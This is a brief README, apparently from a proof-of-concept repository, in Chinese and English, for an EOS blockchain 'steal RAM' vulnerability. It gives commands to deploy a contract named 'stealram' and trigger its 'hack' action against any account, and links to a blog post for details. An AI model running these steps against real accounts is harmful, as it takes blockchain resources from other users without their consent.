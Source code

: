 # Introduction(简介)
偷窃RAM漏洞2实践

# Operation(操作)
## 安装js4eos
```
npm install -g js4eos
```
```
js4eos set contract youraccount stealram
js4eos push action youraccount hack '["anyaccount", "data"]' -p youraccount
```
上面js4eos可以替换为cleos

# details(详情)
<a href="https://blog.csdn.net/ITleaks/article/details/85008008">
https://blog.csdn.net/ITleaks/article/details/85008008
</a>
